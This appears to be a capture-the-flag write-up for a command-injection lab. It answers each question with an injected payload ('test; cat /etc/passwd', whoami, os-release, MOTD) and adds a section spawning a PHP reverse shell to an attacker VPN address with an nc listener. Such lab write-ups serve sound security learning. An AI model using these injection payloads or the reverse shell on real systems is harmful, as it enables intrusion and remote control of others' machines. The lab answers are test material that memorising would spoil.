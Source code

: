 # Task 5

## What strange text file is in the website root directory?

```
test; ls
```

### Answer

drpepper.txt

## How many non-root/non-service/non-daemon users are there?

```
test; cat /etc/passwd
```

### Answer

0

## What user is this app running as?

```
test; whoami
```

### Answer

www-data

## What is the user's shell set as?

```
test; cat /etc/passwd |grep www-data
```

### Answer

/usr/sbin/nologin

## What version of Ubuntu is running?

```
test ; cat /etc/os-release

or 

test ; lsb_release -a
```
### Answer

18.04.4

## Print out the MOTD.  What favorite beverage is shown?

```
test ; locate 00-header
test ; cat /etc/update-motd.d/00-header 
```

### Answer

Dr Pepper

# EXTRA

## Spawn remote shell in that machine

[Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

1. On your machine

- Open a localport on your machine

```
nc -lvnp 9001
```

2. On vulnerable webpage
   
- Spawn this remote shell in the search input. 

Replace ```10.18.1.159``` with your own VPN IP

```
test; php -r '$sock=fsockopen("10.18.1.159",9001);`sh <&3 >&3 2>&3`;'
```

![picture 1](../../../images/9f47b15d9d30419118f5bf48cd93b6e29da260b3859fec6969666e05c774802a.png)  
